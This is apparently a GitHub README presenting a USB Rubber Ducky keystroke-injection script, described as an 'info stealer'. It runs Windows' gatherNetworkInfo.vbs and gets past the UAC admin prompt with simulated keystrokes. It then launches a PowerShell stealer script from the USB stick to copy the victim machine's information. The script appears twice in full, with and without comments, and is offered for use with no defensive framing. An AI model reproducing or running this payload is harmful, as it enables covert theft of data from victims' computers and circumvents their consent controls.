 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the</BR>
C:\Windows\System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
</BR>
DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
REM run as admin
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
REM the scripts require a little of time to create the files....
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
REM the last command  takes about thirty seconds to copy all the informations
</BR>
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>




<h3>Quack Yo Life!!!</h3>

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/fun.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")
</BR>

